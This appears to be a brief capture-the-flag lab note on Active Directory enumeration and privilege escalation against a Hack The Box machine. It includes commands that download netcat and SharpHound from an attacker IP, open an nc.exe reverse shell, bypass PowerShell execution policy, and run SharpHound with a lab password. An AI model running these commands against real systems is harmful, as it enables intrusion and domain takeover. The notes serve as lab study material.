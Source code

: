 ```yaml
---
tags:
  - Exploitation
  - OperatingSystems
  - Windows
  - ActiveDirectory
---
```

`sudo neo4j console`

http://localhost:7474/browser/

Then type **bloodhound** into local shell

`Invoke-WebRequest -Uri 'http://10.10.14.16:8000/nc.exe' -Outfile C:\Users\svc-alfresco\Desktop\nc.exe`

`C:\Users\svc-alfresco\Desktop\nc.exe -e cmd.exe 10.10.14.16 4444`

`Invoke-WebRequest -Uri 'http://10.10.14.16:8000/SharpHound.ps1' -Outfile C:\Users\svc-alfresco\Desktop\SharpHound.ps1`

`PowerShell -Exec Bypass`

`. .\SharpHound.ps1`
`invoke-bloodhound -collectionmethod all -domain htb.local -LDAPUser svc-alfresco -LDAPPass s3rvice`

Get back to box and drag into blood hound

The sandwich menu button (the red box in the above image) was pressed and the “Find Shortest Paths to Domain Admins” link was pressed:

Research main connection element eg Exchange Windows Permissions

https://chryzsh.github.io/exploiting-privexchange/

Click on the EDGE between nodes for help

https://github.com/fox-it/aclpwn.py
